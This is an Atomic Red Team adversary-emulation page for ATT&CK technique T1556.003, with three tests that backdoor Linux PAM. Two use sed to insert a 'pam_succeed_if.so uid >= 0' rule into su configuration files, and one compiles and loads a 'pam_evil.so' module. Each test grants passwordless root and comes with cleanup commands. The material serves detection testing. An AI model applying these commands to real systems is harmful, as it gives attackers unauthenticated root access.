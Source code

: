 # T1556.003 - Modify Authentication Process: Pluggable Authentication Modules

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/003)

<blockquote>Adversaries may modify pluggable authentication modules (PAM) to access user credentials or enable otherwise unwarranted access to accounts. PAM is a modular system of configuration files, libraries, and executable files which guide authentication for many services. The most common authentication module is <code>pam_unix.so</code>, which retrieves, sets, and verifies account authentication information in <code>/etc/passwd</code> and <code>/etc/shadow</code>.(Citation: Apple PAM)(Citation: Man Pam_Unix)(Citation: Red Hat PAM)

Adversaries may modify components of the PAM system to create backdoors. PAM components, such as <code>pam_unix.so</code>, can be patched to accept arbitrary adversary supplied values as legitimate credentials.(Citation: PAM Backdoor)

Malicious modifications to the PAM system may also be abused to steal credentials. Adversaries may infect PAM resources with code to harvest user credentials, since the values exchanged with PAM components may be plain-text since PAM does not store passwords.(Citation: PAM Creds)(Citation: Apple PAM)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious PAM rule](#atomic-test-1---malicious-pam-rule)

- [Atomic Test #2 - Malicious PAM rule (freebsd)](#atomic-test-2---malicious-pam-rule-freebsd)

- [Atomic Test #3 - Malicious PAM module](#atomic-test-3---malicious-pam-module)

<br/>

## Atomic Test #1 - Malicious PAM rule

Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux

**auto_generated_guid:** 4b9dde80-ae22-44b1-a82a-644bf009eb9c

#### Inputs:

| Name             | Description                       | Type    | Default Value                              |
| ---------------- | --------------------------------- | ------- | ------------------------------------------ |
| path_to_pam_conf | PAM config file to modify.        | string  | /etc/pam.d/su-l                            |
| pam_rule         | Rule to add to the PAM config.    | string  | auth sufficient pam_succeed_if.so uid >= 0 |
| index            | Index where the rule is inserted. | integer | 1                                          |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:

```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```

<br/>
<br/>

## Atomic Test #2 - Malicious PAM rule (freebsd)

Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux

**auto_generated_guid:** b17eacac-282d-4ca8-a240-46602cf863e3

#### Inputs:

| Name             | Description                       | Type    | Default Value                              |
| ---------------- | --------------------------------- | ------- | ------------------------------------------ |
| path_to_pam_conf | PAM config file to modify.        | string  | /etc/pam.d/su                              |
| pam_rule         | Rule to add to the PAM config.    | string  | auth sufficient pam_succeed_if.so uid >= 0 |
| index            | Index where the rule is inserted. | integer | 8                                          |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo sed -i "" "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:

```sh
sudo sed -i "" "/#{pam_rule}/d" #{path_to_pam_conf}
```

<br/>
<br/>

## Atomic Test #3 - Malicious PAM module

Creates a PAM module, inserts a rule to use it, and then tests it.

Upon successful execution, this test will create a PAM module that allows every user to su to root without a password.

**Supported Platforms:** Linux

**auto_generated_guid:** 65208808-3125-4a2e-8389-a0a00e9ab326

#### Inputs:

| Name                      | Description                       | Type    | Default Value                                |
| ------------------------- | --------------------------------- | ------- | -------------------------------------------- |
| path_to_pam_conf          | PAM config file to modify.        | string  | /etc/pam.d/su-l                              |
| pam_rule                  | Rule to add to the PAM config.    | string  | auth sufficient /tmp/pam_evil.so             |
| index                     | Index where the rule is inserted. | integer | 1                                            |
| path_to_pam_module_source | Path to PAM module source code.   | path    | PathToAtomicsFolder/T1556.003/src/pam_evil.c |
| path_to_pam_module        | Path to PAM module object         | path    | /tmp/pam_evil.so                             |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:

```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```

#### Dependencies: Run with `sh`!

##### Description: The PAM development library must be installed to build the PAM module

##### Check Prereq Commands:

```sh
if [ -f /usr/include/security/pam_modules.h ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
if [ -n "`which apt-get`" ]; then sudo apt-get -y install libpam0g-dev; elif [ -n "`which yum`" ]; then sudo yum -y install pam-devel; fi
```

##### Description: The PAM module must exist on disk at specified location (#{path_to_pam_module})

##### Check Prereq Commands:

```sh
if [ -f #{path_to_pam_module} ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
sudo gcc -shared -fPIC -o #{path_to_pam_module} #{path_to_pam_module_source}
```

<br/>
